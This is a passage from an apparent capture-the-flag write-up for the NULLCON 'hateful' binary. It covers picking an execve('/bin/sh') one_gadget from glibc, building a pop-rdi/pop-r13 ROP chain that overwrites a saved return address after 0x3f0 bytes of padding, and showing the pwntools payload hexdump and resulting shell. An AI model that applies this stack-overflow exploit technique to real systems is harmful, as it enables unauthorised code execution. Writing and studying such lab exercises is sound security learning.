 5. Retrieve the one_gadget from the provided glibc file. The output is as follows.

   ```bash
   root@72f9eb9e3ebc:/chal/NULLCON/hateful# one_gadget libc.so.6
   0x4c139 posix_spawn(rsp+0xc, "/bin/sh", 0, rbx, rsp+0x50, environ)
   constraints:
     address rsp+0x60 is writable
     rsp & 0xf == 0
     rax == NULL || {"sh", rax, r12, NULL} is a valid argv
     rbx == NULL || (u16)[rbx] == NULL
   
   0x4c140 posix_spawn(rsp+0xc, "/bin/sh", 0, rbx, rsp+0x50, environ)
   constraints:
     address rsp+0x60 is writable
     rsp & 0xf == 0
     rcx == NULL || {rcx, rax, r12, NULL} is a valid argv
     rbx == NULL || (u16)[rbx] == NULL
   
   0xd511f execve("/bin/sh", rbp-0x40, r13)
   constraints:
     address rbp-0x38 is writable
     rdi == NULL || {"/bin/sh", rdi, NULL} is a valid argv
     [r13] == NULL || r13 == NULL || r13 is a valid envp
   ```

   We choose `execve("/bin/sh", rbp-0x40, r13)` with an offset of `0xd511f` to be our one_gadget to pop a shell.

6. Form an ROP chain to pop a shell. This is used to overwrite from the `__return_addr` in the `send_message` function stack. According to the one_gadget constraints, `rdi` and `r13` registers have to be NULL. Our ROP chain is as follows.

   ```python
   chain = [
       glibc_r.rdi.address + glibc_base_addr,  # pop rdi; ret
       0x0,    # NULL
       glibc_r.r13.address + glibc_base_addr,  # pop r13; ret
       0x0,    # NULL
       0xd511f + glibc_base_addr  # one gadget
   ]
   ```

7. Send the payload with a `0x3f0` padding, the `rbp-0x38` writable stack address to overwrite the `__saved_rbp`, and the ROP chain using the chosen one_gadget to pop a shell. The pwntools debug view is as follows. 

   ```bash
   now please provide the message!                                                        
                                                                                          
   [DEBUG] Sent 0x421 bytes:                                                              
       00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
       *                                                                                  
       000003f0  30 64 cc 61  fc 7f 00 00  e5 c7 00 7b  5d 7f 00 00  │0d·a│····│···{│]···│
       00000400  00 00 00 00  00 00 00 00  30 e8 00 7b  5d 7f 00 00  │····│····│0··{│]···│
       00000410  00 00 00 00  00 00 00 00  1f a1 0b 7b  5d 7f 00 00  │····│····│···{│]···│
       00000420  0a                                                  │·│                  
       00000421                                                                           
   [*] Switching to interactive mode                                                      
   [DEBUG] Received 0x30 bytes:                                                           
       b'Got it! we will send the message for him later!\n'                               
   Got it! we will send the message for him later!                                        
   $ whoami                                                                               
   [DEBUG] Sent 0x7 bytes:                                                                
       b'whoami\n'                                                                        
   [DEBUG] Received 0x1b bytes:                                                           
       b'Detaching from process 512\n'                                                    
   Detaching from process 512                                                             
   ```